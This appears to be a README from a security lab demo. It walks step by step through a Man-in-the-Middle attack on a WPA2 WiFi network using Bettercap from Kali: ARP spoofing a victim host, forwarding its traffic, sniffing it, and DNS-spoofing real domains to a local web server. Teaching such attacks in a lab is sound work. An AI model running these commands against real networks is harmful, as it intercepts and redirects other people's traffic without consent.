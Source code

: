 # Man in the Middle (MitM)

This demo shows how to achieve a successful Man-in-the-Middle attack leveraging ARP Spoofing in a WIFI WPA2 network.

This Demo is a continuation of [WIFICracking](../WIFICracking/README.md) demo. Your Kali Network has to be connected to the network to intercept the traffic of our victim

## Attack!

1. First, connect the Kali VM to the target network

```bash
sudo nmtui # Use the network manager
sudo ip link set eth0 down # Disable Eth0

ping google.es # make sure you are connected to the network
```

2. Start Bettercap and perform a network probe to find potential targets

```bash
sudo bettercap --iface wlan0

> net.probe on
> net.show
```

![](./img/scan_cap.png)

3. We found our target! `192.168.254.102`, now we will perform an ARP Spoofing, but before we need to configure Kali VM to forward requests to the gateway comming from our target. Otherwise, our victim will lack from internet connectivity

> Run the following commands in a new shell

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

4. Configure and start the ARP Spoofing with bettercap

```bash
> set arp.spoof.targets 192.168.254.102
> arp.spoof on
```

5. Start sniffing the traffic to verify the MitM attack is successful

```bash
> set net.sniff.verbose false
> net.sniff on
```

![](./img/arpsoof.png)

6. Now, let's have some fun :) Using DNS Spoofing we will redirect our victim queries to a local http service hosted in our Kali VM

7. Start the HTTP Server with Python in a new shell

```bash
cd server
python3 -m http.server 80 --bind 0.0.0.0
``` 

8. Configure and start the dns spoofing agent

```bash
set dns.spoof.domains upc.edu,test.edu
set dns.spoof.addresses 192.168.254.186 # IP Kali VM
dns.spoof on
```

![](./img/dnsspoof.png)

> Bettercap reports fake dns responses are being generated whenever the victim browse to one off the spoofed domains. Redirecting the query to the local HTTP service

![](./img/fakeservice.jpeg)


## Cleanup

* Remove the routing rules

```bash
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -D POSTROUTING -o wlan0 -j MASQUERADE
```
